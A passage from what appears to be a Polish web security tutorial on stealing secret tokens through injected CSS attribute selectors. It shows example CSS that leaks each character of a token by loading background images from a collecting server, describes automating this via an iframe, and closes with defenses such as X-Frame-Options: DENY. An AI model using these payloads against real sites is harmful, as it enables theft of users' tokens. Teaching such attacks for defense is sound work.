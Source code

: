 <blockquote>This does seem like an unfortunate side effect.

<footer><cite>Źródło: <a href="https://bugs.chromium.org/p/chromium/issues/detail?id=543078">bugs.chromium.org/p/chromium/issues/detail?id=543078</a></cite></footer></blockquote>

<h2>Hacking przez selektory CSS</h2>

Jak dobrze znasz selektory CSS? Przykładowo, czy wiesz co robi selektor <code>#secret-token[value^=0]</code>? Wybiera on tylko elementy, których atrybut <code>value</code> <strong>zaczyna się od 0</strong>. Więc kolejny wektorem ataku przez CSS jest możliwość wykorzystania właśnie takich selektorów CSS do kradzieży danych z konta ofiary.

<h3>Atak przez selektor</h3>

Wystarczy, że wygenerujesz odpowiedni CSS na wzór tego:

<pre class="language-css"><code>#secret-token[value^=A] {
    background-image: url(http://typeofweb.com/token/A);
}
#secret-token[value^=B] {
    background-image: url(http://typeofweb.com/token/B);
}
#secret-token[value^=C] {
    background-image: url(http://typeofweb.com/token/C);
}
…</code></pre>

Znowu: Dla każdej litery alfabetu generujesz odpowiedni CSS. Jeśli token, który chcesz ukraść zaczyna się od litery A, wtedy Twój serwer zostanie o tym poinformowany. Masz już pierwszą literę, co możesz z tym dalej zrobić? <strong>Wygenerować nowy zestaw selektorów</strong> gdzie pierwszą literą jest <code>A</code>, a zgadywana jest druga litera:

<pre class="language-css"><code>#secret-token[value^=AA] {
    background-image: url(http://localhost:3001/token/A);
}
#secret-token[value^=AB] {
    background-image: url(http://localhost:3001/token/B);
}
#secret-token[value^=AC] {
    background-image: url(http://localhost:3001/token/C);
}
…</code></pre>

<strong>I tak dalej, i tak dalej, aż znajdziesz wszystkie znaki w tokenie.</strong>

Czy to oznacza jednak, że użytkownik będzie musiał sam, dobrowolnie, wiele razy odświeżać stronę i pozwoli się w ten sposób okraść? Wcale nie jest to konieczne, <strong>jeśli tylko aplikację można osadzić wewnątrz <code>&lt;iframe&gt;</code> — wtedy atak można w pełni zautomatyzować</strong>. Na filmiku poniżej możesz zobaczyć kradzież kolejnych znaków z prostego tokena <code>cielecina1</code>:

https://youtu.be/dX8J0LBMlCY

<h3>Jak zapobiegać?</h3>

No, jeśli masz buga, która pozwala na wstrzykiwanie CSS to po prostu go napraw… i tak dalej ;) Z bezpieczeństwa aplikacji możemy Cię też podszkolić: <a href="https://szkolenia.typeofweb.com/" target="_blank">zapisz się na szkolenie z security</a>. Mocno utrudnisz też sprawę jeśli <strong>nie zezwolisz aby Twoja aplikacja była osadzana wewnątrz <code>&lt;iframe&gt;</code></strong>. W dzisiejszych czasach można to zrobić dość łatwo, wystarczy tylko dodać jeden nagłówek do odpowiedzi z serwera: <code>X-Frame-Options: DENY</code>
